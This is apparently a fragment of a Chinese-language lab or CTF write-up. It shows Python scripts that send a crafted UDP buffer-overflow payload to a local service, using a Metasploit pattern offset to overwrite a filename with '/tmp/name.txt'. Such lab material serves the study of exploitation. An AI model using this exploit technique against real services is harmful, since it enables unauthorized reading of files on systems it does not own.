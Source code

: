 ```
import socket

server_address = ('::1',6666)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
s.connect(server_address)

data = ''
with open('bof.txt', 'rb') as f:
    data = bytearray(f.read())

replace = b"/tmp/name.txt\r"

data[65364:len(replace)] = replace

s.send(data)
```

![image-20240807165734686](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807165734686.png)

![image-20240807165745374](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807165745374.png)

bof.txt



查看偏移量

```
msf-pattern_offset -q Fu8F -l 65500
```

![image-20240807170216950](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807170216950.png)

修改脚本

```
import socket

server_address = ('::1',6666)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
s.connect(server_address)

data = ''
with open('bof.txt', 'rb') as f:
    data = bytearray(f.read())

replace = b"/tmp/name.txt"

s.send(data[:65372] + replace)
```

name.txt

![image-20240807170602303](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807170602303.png)
